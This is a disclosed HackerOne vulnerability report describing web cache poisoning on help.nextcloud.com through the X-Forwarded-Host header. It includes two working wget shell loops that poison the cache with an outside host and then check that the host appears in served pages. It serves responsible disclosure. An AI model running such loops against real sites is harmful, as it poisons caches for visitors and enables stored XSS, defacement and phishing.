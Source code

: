 # https://help.nextcloud.com::: Web cache poisoning attack

## Report Details
- **Report ID**: 429747
- **URL**: https://hackerone.com/reports/429747
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-10-27T19:33:02.896Z
- **Disclosed**: 2020-01-31T19:08:52.345Z

## Reporter
- **Username**: g4mm4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi there,
I just found the website:
https://help.nextcloud.com
is infected with "Web cache poisoning"
Abuse this bug, Attacker can:
1. Poison your cache with HTTP header with XSS included. This attack may leads to Stored XSS
2. Poison your website contains malware url (cache poisoned by attacker), maybe the user's browser (like Firefox, Chrome) will block your website (https://help.nextcloud.com)

How to reproduce the issue:

    In the 1st terminal, run command likes this: 
$ while true; do wget "https://help.nextcloud.com/?qwKzzSR=649227948379" --header 'X-Forwarded-Host: cyberjutsu.io/#' -qO->/dev/null; echo "poisoning...";done
    In the 2nd terminal, run command below for confirmation this attack is successful: 
while true; do wget "https://help.nextcloud.com/?qwKzzSR=649227948379" -qO-|grep "cyberjutsu.io"; echo "ping my payload..." ;done

Finally, this link bellow: https://help.nextcloud.com/?qwKzzSR=649227948379 was infected with "Web Cache poisoning attack".
Please see the attached image for details.

Impact
Stored XSS attack, deface website ....
Cheers,
~g4mm4

## Impact

Stored XSS attack, deface website, phishing for funs :)

## Attachments
- PoC2.png
- PoC1.png
- PoC3.png
